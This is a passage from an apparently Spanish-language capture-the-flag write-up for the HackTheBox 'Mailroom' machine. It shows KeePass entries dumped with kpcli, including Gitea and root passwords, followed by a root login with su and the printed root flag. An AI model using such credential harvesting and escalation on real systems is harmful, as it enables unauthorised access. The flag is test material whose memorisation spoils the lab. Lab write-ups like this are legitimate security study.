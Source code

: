 Title: My Gitea Account
Uname: matthew
 Pass: HueLover83#
  URL: http://git.mailroom.htb/
Notes: for work

kpcli:/> show -f 4

Title: root acc
Uname: root
 Pass: a$gBa3!GA8
  URL:
Notes: root account for sysadmin jobs
{% endhighlight %}
La ultima credencial `a$gBa3!GA8` es valida para el usuario root.
{% highlight sh %}
matthew@mailroom:~$ su --login root
Password: a$gBa3!GA8
root@mailroom:~# cat /root/root.txt
933d91203803f0e3e4e3d69757a5d621
{% endhighlight %}
